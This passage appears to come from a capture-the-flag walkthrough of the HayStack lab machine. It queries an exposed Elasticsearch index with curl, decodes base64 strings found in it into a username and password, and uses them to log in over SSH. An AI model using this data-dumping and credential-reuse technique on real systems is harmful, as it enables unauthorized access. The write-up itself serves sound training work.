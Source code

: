 * We can get more information about any index with: `http://10.10.10.115:9200/<index>`
* Search about all information about an index: `http://10.10.10.115:9200/<index>/_search?pretty=true&size=10000`

7. When your search about all information you really get a lot information **look for a needle in a haystack**, wait... Previously we can get a string `la aguja en el pajar es "clave"`, use **grep** to search important information like:
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─# curl -s -X GET "http://10.10.10.115:9200/<index>/_search?pretty=true&size=10000" | jq | grep -i 'clave'
```

* Use `jq` to parse infornmation in **json format**.
* Use **grep** with band **i** to search information in case insensitive.
* `index` like **.kibana**, **quotes** or **bank**

+ In this case the index with relevant information are **quotes**.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─# curl -s -X GET "http://10.10.10.115:9200/quotes/_search?pretty=true&size=10000" | jq | grep -i 'clave'
          "quote": "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
          "quote": "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
```

* The information getting are encode in base64.

`First string` 
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─# echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d; echo
pass: spanish.is.key
```
***
`Second string`
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─# echo "dXNlcjogc2VjdXJpdHkg" | base64 -d; echo
user: security
```

8. Connect with this credentials in ssh
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─# ssh security@10.10.10.115      
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ED25519 key fingerprint is SHA256:J8TOL2f2yaJILidImnrtW2e2lcroWsFbo0ltI9Nxzfw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ED25519) to the list of known hosts.
security@10.10.10.115's password: 
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ whoami
security
```
